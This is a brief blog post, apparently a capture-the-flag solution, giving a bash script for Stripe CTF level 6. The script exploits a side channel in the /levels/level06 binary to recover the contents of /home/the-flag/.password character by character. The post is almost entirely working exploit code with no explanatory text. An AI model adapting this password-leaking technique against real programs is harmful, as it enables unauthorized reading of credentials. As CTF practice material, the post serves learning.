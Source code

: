 ```yaml
---
title: "level06 stripe ctf"
date: 2012-02-29 10:05:46
tags: ["ctf"]
---
```


<p>
{% highlight bash %}
#!/usr/bin/env bash

ulimit -f 1 # set file size limit to 1024 bytes

s=""
while true; do 
  for ((i=32; i < 127; i++)); do
    rm f o
    c=$(ruby -e "print ${i}.chr")
    t="${s}${c}..."
    echo "${t}"

    ruby -e "print 'A' * (1024-33-${#t}+3)" > f;
    /levels/level06 /home/the-flag/.password "${t}" 2>>f 1>o;

    sleep 0.1 # INCREASE LIBERALLY IF FALSE POSITIVES
   
    if [ ! -s o ]; then # if file o is empty
      s="${s}${c}"
      echo -n $c
      break
    fi
  done
done
{% endhighlight %}
</p>
